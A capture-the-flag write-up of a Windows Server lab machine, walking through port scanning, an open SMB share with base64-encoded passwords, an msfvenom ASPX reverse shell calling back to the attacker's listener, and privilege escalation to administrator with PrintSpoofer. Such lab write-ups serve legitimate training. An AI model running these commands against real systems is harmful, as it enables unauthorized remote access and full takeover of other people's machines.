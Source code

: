 #CTF 


You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

**Scope of Work**

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt  

Additionally, the client has provided the following scope allowances:

- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.  

****Writeups will not be accepted for this room.****

## Recon

```
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-06-14T20:48:13
|_Not valid after:  2023-12-14T20:48:13
|_ssl-date: 2023-06-15T21:14:35+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2023-06-15T21:13:55+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-06-15T21:13:58
|_  start_date: 2023-06-15T20:48:37
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h23m58s, deviation: 3h07m51s, median: -2s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-15T14:13:57-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


```

`smbclient -L [ip]`
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.118.30 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
  
```

Gobuster
`gobuster dir -u http://[ip]:49663/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -no-error -t 50`
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.118.30:49663/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/15 17:30:16 Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client        (Status: 301) [Size: 163] [--> http://10.10.118.30:49663/aspnet_client/]
Progress: 4579 / 4615 (99.22%)
===============================================================
2023/06/15 17:30:53 Finished

```

## Access

There is an interesting share named nt4wrksv. I will try to access it
`smbclient  //[ip]/nt4wrksv -U nt4wrksv`
And I am in without password. I find a file named passwords.txt
```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk 
```

I use base64 to decode them
`Bob - !P@$$W0rD!123 `
`Bill - Juw4nnaM4n420696969!$$$`

I am going to create a reverse shell with msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[local ip] LPORT=443 -f aspx > relevant.aspx
```

I connect to the nt4wrksv share via smbclient as before and put  relevant.aspx on the machine.
Then I open a Netcat connection on port 443.
Lastly I curl my file like `curl http://[ip]:49663/nt4wrksv/relevant.aspx`
And I have a connection
I find user flag under `c:\Users\Bob\Desktop>`

## Priv Esc

Similar to sudo -l I type `whoami /priv`

```
PRIVILEGES INFORMATION                                                                  
----------------------                                                                  
Privilege Name                Description                               State           
============================= ========================================= ========       
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled       
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled        
SeAuditPrivilege              Generate security audits                  Disabled        
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled         
SeImpersonatePrivilege        Impersonate a client after authentication Enabled         
SeCreateGlobalPrivilege       Create global objects                     Enabled         
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled  
```

I found out that `SeImpersonatePrivilege        Impersonate a client after authentication Enabled  `, is promising.
Searching online I found PrintSpoofer64.exe
This is a tool to impersonate the Admin.
So I downloaded it. Then opened a smbclient session with nt4wrksv, I putted PrintSpoofer64.exe and logged out.

Next I logged in the machine with curl as before, navigated to the uploaded files under
`c:\inetpub\wwwroot\nt4wrksv`
and typed `PrintSpoofer64.exe -i -c powershell`
And I was root!
I found the flag under `C:\Users\Administrator\Desktop>`
